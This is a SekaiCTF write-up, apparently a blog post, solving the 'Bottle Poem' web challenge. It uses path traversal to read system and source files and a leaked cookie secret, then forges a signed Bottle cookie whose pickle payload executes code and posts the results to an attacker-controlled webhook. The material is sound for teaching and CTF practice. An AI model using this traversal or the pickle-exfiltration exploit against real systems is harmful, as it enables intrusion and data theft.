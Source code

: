 ```yaml
---
layout: post
current: post
cover:  assets/sekai/Ace314159/cover.webp
navigation: True
title: "Bottle Poem"
date: 2022-11-03 10:00:00
tags: [SekaiCTF, web]
class: post-template
subclass: 'post'
author: Ace314159
---
```


For this web challenge, we had to utilize two different exploits to get the flag -- and one of them wasn't a web exploit!

## Setup

We're presented with a website where we can select different poems to view. When we click on a poem, we can see that the URL contains the name of a text file: `/show?id=spring.txt`.

## Local File Inclusion (LFI)

The first thing that comes to mind when we can access arbitrary files on a web server is Local File Inclusion (LFI). We tried it out by trying to access /etc/passwd `/show?id=../../etc/passwd`. We were successful! 

Next, we wanted to get the source code of the website for further analysis of where the flag could be. After some Googling, we found that we can read the `/proc/self/cmdline` file to get the command line arguments of the current process. This yielded `"python3", "-u", "/app/app.py"`. Thus, we can access `app.py` using `/show?id=../../app/app.py`, giving us this file:

```python
from bottle import route, run, template, request, response, error
from config.secret import sekai
import os
import re


@route("/")
def home():
    return template("index")


@route("/show")
def index():
    response.content_type = "text/plain; charset=UTF-8"
    param = request.query.id
    if re.search("^../app", param):
        return "No!!!!"
    requested_path = os.path.join(os.getcwd() + "/poems", param)
    try:
        with open(requested_path) as f:
            tfile = f.read()
    except Exception as e:
        return "No This Poems"
    return tfile


@error(404)
def error404(error):
    return template("error")


@route("/sign")
def index():
    try:
        session = request.get_cookie("name", secret=sekai)
        if not session or session["name"] == "guest":
            session = {"name": "guest"}
            response.set_cookie("name", session, secret=sekai)
            return template("guest", name=session["name"])
        if session["name"] == "admin":
            return template("admin", name=session["name"])
    except:
        return "pls no hax"


if __name__ == "__main__":
    os.chdir(os.path.dirname(__file__))
    run(host="0.0.0.0", port=8080)
```

## Getting Trolled

The code shows that there's an admin template that only an admin user can access. However, since we have LFI, we can just access the template directly: `/show?id=../../app/views/admin.html`. This gives us the template

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>Sekai's boooootttttttlllllllleeeee</title>
    <script src="https://cdn.tailwindcss.com"></script>
</head>
<body class="text-white bg-zinc-800 container px-4 mx-auto text-center h-screen box-border flex justify-center item-center flex-col">
    Hello, you are {{name}}, but it’s useless.
</body>
</html>
```

No flag :(

## Pickle Fun

We had to keep looking. The next thing that came to mind was seeing if we could control the `session` variable. This wouldn't help us with the admin page, since we already know the admin template is useless, but maybe we can do something else with it. Looking at the source of `get_cookie`, we see that it calls `cookie_decode`, which looks like this:

```python
def cookie_decode(data, key):
    ''' Verify and decode an encoded string. Return an object or None.'''
    data = tob(data)
    if cookie_is_encoded(data):
        sig, msg = data.split(tob('?'), 1)
        if _lscmp(sig[1:], base64.b64encode(hmac.new(tob(key), msg, digestmod=hashlib.md5).digest())):
            return pickle.loads(base64.b64decode(msg))
    return None
```

`pickle`! The code uses pickle to load arbitrary data from the cookie. This gives us Remote Code Execution (RCE), which we can use to search for the flag. The way we can get RCE using pickle is by pickling a class with the `__reduce__` method. It returns a tuple, where the first value is a function, and the second value is the arguments passed into the function. When `pickle.loads` is called, it will call the function with the arguments. We can use this in conjunction with the python `exec` function to get RCE.

Our final exploit just runs the flag executable (which we found using the same exploit strategy), and then sends the output as a payload to a webhook URL we control. (You can create webhook URLs with a site like [RequestBin](https://requestbin.com/).) Here's the class that we used in our final exploit:

```python
code = """
import urllib.request
import os
import subprocess

path = os.path.join(os.getcwd(), "../flag")
try:
    data = str(subprocess.run([path], capture_output=True)).encode("utf-8")
except Exception as e:
    data = str(e).encode("utf-8")

req = urllib.request.Request(WEBHOOK_URL, data=data)

urllib.request.urlopen(req)
"""

class RCE:
    def __reduce__(self):
        return exec, (code,)
```


However, before we get RCE on the server, we need to find the secret the session cookie is encrypted with. Without that, we can't change the cookie. The secret is imported at the top of the web server file, so could we just load the imported file using LFI? Let's take a look at `/show?id=../../app/config/secret.py`:

```python
sekai = "Se3333KKKKKKAAAAIIIIILLLLovVVVVV3333YYYYoooouuu"
```

Perfect! Now we just have to construct our payload! Looking near `cookie_decode`, we see `cookie_encode`, which looks like this:

```python
def cookie_encode(data, key):
    ''' Encode and sign a pickle-able object. Return a (byte) string '''
    msg = base64.b64encode(pickle.dumps(data, -1))
    sig = base64.b64encode(hmac.new(tob(key), msg, digestmod=hashlib.md5).digest())
    return tob('!') + sig + tob('?') + msg
```

After stealing that code, we can complete our exploit.

```python
data = RCE()

msg = base64.b64encode(pickle.dumps(data, -1))
sig = base64.b64encode(hmac.new(tob(secret), msg, digestmod=hashlib.md5).digest())
print(tob('!') + sig + tob('?') + msg)
```

And we have the flag! Here's the full code:

```python
code = """
import urllib.request
import os
import subprocess

path = os.path.join(os.getcwd(), "../flag")
try:
    data = str(subprocess.run([path], capture_output=True)).encode("utf-8")
except Exception as e:
    data = str(e).encode("utf-8")

req = urllib.request.Request(WEBHOOK_URL, data=data)

urllib.request.urlopen(req)
"""


class RCE:
    def __reduce__(self):
        return exec, (code,)


data = RCE()

msg = base64.b64encode(pickle.dumps(data, -1))
sig = base64.b64encode(hmac.new(tob(secret), msg, digestmod=hashlib.md5).digest())
print(tob('!') + sig + tob('?') + msg)
```

Flag: `SEKAI{W3lcome_To_Our_Bottle}`